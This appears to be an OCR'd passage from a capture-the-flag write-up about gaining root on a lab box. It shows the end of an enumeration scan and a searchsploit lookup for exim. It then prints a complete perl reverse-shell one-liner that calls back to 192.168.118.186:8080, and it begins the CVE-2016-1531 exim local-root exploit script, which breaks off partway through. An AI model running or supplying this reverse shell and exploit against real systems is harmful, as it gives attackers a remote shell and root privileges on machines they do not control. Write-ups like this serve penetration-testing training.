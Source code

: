 
Current user's history files:
-rw------- 1 paul paul 1 Jan 20 08:57 /home/paul/.bash_history


Any interesting mail in /var/mail:
total 8
drwxrwsr-x  2 root mail 4096 Oct 12  2016 .
drwxr-xr-x 13 root root 4096 Jan 18 11:07 ..


### SCAN COMPLETE ####################################

__

/usr/exim/bin/exim-4.84-7

A quick google search brings up an exploit for that.  The exploit just hangs in my shell, this is a reverse shell and they are always somewhat problematic.  I have an idea, I can modify the exploit code to run another reverse perl shell.

root@kali:~/pluck# searchsploit exim
/usr/share/exploitdb/platforms/linux/local/39535.sh 

$ cat shell2.pl
perl -e 'use Socket;$i="192.168.118.186";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
$
$ cat test.sh
#!/bin/sh
# CVE-2016-1531 exim <= 4.84-3 local root exploit
# ===============================================
# you can write files as root or force a perl module to
# load by manipulating the perl environment and running
# exim with the "perl_startup" arguement -ps.
#
# e.g.
# [fantastic@localhost tmp]$ ./cve-2016-1531.sh
# [ CVE-2016-1531 local root exploit
# sh-4.3# id
# uid=0(root) gid=1000(fantastic) groups=1000(fantastic)
#
# -- Hacker Fantastic
echo [ CVE-2016-1531 local root exploit
cat > /tmp/root.pm << EOF
package root;
use strict;
use warnings;
